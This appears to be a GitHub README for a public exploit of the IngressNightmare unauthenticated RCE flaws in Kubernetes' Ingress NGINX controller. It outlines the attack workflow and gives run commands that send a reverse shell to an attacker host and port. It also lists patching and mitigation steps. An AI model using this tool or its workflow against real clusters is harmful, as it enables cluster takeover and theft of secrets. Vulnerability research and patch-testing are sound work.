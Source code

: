 ## Exploit for Ingress NGINX - IngressNightmare

This project provides an exploit targeting critical **unauthenticated Remote Code Execution (RCE)** vulnerabilities in the Ingress NGINX Controller for Kubernetes, collectively referred to as IngressNightmare. (Research by [Wiz](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities))

In the original research, the Wiz team did not provide a PoC or a functional exploit, so we decided to create our own and share it with the community.

#### Overview

The Ingress NGINX Controller is a widely used component in Kubernetes environments, managing external access to services within clusters. Recent vulnerabilities (CVE-2025-1097, CVE-2025-1098, CVE-2025-24514, CVE-2025-1974) discovered in its admission controller can lead to unauthorized access to all secrets across namespaces and potentially allow complete cluster takeover.

### VIDEO
https://github.com/user-attachments/assets/9e893abf-5c01-4fcb-ad79-7115b429281f

### **Exploit Workflow**

The exploit follows these main steps:

**Generate shared object** (used by the injected `ssl_engine` property):
*Compiles a .so library (evil_engine.so) containing reverse shell payload.*

**Upload the shared object**:
*Sends the compiled shared object to the ingress pod, leveraging request handling (client body buffers). The trick here is to send a different `Content-Length` to the server to keep the connection open and maintain the file descriptor for the file open.*

**Brute-force fd**:
*Iterates over process IDs and file descriptors (/proc/{pid}/fd/{fd}) to identify the correct descriptor referencing the uploaded object.*

Usage

Prerequisites:
Python 3.x
GCC compiler
Python requests module

Run exploit:

`pip3 install -r requirements.txt`

`python3 exploit.py <ingress_url> <admission_webhook_url> [attacker_host:port](attacker_host:port)`

Ex: `python3 xpl.py http://192.168.0.154 https://rke2-ingress-nginx-controller-admission.kube-system 192.168.1.63:443 `

Sometimes the `admission webhook` is in a different namespace. In this case, you need to specify the namespace at the end, such as `kube-system`, `default`, or `ingress-nginx`.

<ingress_url>: Target Ingress URL (public)

<admission_webhook_url>: Admission webhook URL (internal webhook)

[attacker_host:port](attacker_host:port): Your host and port for reverse shell

### Mitigation

Update immediately: Upgrade Ingress NGINX Controller to patched versions (1.12.1 or 1.11.5).

Restrict admission webhook: Limit access to the webhook to only the Kubernetes API Server.

Temporary disablement: Consider temporarily disabling the admission controller component if upgrading isn't immediately possible.

## QuimeraX Intelligence

**QuimeraX Intelligence** is an advanced EASM and Cyber Threat Intelligence platform specializing in identifying critical vulnerabilities in complex systems. The platform proactively monitors, detects, and alerts clients about security threats, ensuring transparency and rapid response to potential risks. Clients receive immediate notifications and comprehensive reports if their systems are found vulnerable, enabling them to take protective action. [learn more](https://hakaisecurity.io/quimera-team/)

## Hakai Security

[Hakai Security](https://hakaisecurity.io/) is a cybersecurity company founded by security professionals, committed to technical excellence. We offer tailored security solutions including advanced penetration testing, realistic Red Team simulations, and secure development practices to proactively protect our clients' assets from evolving cyber threats. [learn more]()

**Disclaimer**

This exploit is provided strictly for educational and research purposes. Unauthorized use of this tool against targets without explicit permission. Hakai Security and QuimeraX hold no responsibility for misuse or damage caused by using this exploit.
